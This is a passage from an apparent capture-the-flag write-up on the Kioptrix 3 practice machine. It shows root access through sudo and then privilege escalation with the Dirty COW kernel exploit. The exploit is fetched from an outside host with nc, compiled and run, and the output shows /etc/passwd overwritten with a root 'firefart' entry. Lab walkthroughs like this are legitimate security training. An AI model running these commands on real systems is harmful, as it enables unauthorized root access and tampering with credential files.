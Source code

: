 	![](images/Pasted%20image%2020220123200009.png)
2. Obtain root
	```
	loneferret@Kioptrix3:/home/www/kioptrix3.com$ sudo su
	root@Kioptrix3:/home/www/kioptrix3.com# whoami
	root
	root@Kioptrix3:/home/www/kioptrix3.com# 
	```
	![](images/Pasted%20image%2020220123200230.png)
	
# Privilege Escalation to Root - 3 via Kernel Exploit
1. Ran linpeas
	![](images/kioptrix%20linpeas%20output.png)
2. Search exploits for `linux version 2.6.24`
	- https://www.exploit-db.com/exploits/40839
3. Transfer exploit
4. Compile & Exploit
	```
	loneferret@Kioptrix3:/tmp$ nc 192.168.1.1 4444 > dirty.c
	loneferret@Kioptrix3:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
	dirty.c:193:2: warning: no newline at end of file
	loneferret@Kioptrix3:/tmp$ chmod +x dirty; ./dirty 
	/etc/passwd successfully backed up to /tmp/passwd.bak
	Please enter the new password: 
	Complete line:
	firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash
